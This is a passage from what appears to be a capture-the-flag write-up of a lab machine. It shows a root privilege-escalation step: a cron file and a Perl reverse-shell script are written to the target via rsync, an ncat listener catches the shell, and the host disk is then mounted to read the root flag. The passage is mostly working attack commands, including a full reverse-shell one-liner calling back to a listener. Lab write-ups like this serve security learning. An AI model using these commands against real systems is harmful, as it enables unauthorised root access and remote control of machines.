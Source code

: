 **echo '* * * * * root sh /tmp/[enox.sh](http://enox.sh)' > enoxcron**

→ enox.sh :

**perl -e 'use Socket;$i="172.20.0.3";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**

→ Writing both the files

```
rsync enoxcron rsync://172.20.0.2/src/etc/cron.d/

rsync enox.sh rsync://172.20.0.2/src/tmp/**
```

→ Uploaded ncat to the 2nd machine and started listener :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2037.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2037.png)

→ Waiting for cron to be triggered :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2038.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2038.png)


⇒ Getting root flag :

**mkdir /tmp/basedjake**

**mount /dev/sda1 /tmp/basedjake**

**cat /tmp/basedjake/root.txt**
